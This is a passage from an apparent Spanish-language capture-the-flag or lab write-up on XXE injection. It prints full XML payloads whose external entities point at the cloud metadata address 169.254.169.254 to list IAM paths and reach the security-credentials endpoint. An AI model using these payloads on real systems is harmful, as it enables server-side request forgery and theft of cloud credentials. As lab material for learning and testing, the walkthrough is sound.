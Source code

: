 Ahora vemos otra ruta llamada iam, la cual al entrar nuevamente agregándola a la URL:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Veremos lo siguiente:

![credentials](/assets/images/LabsXXE/lab2/credentials.png)

Y al acceder a esta otra ruta que encontramos llamada **security-credentials** veremos lo siguiente:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

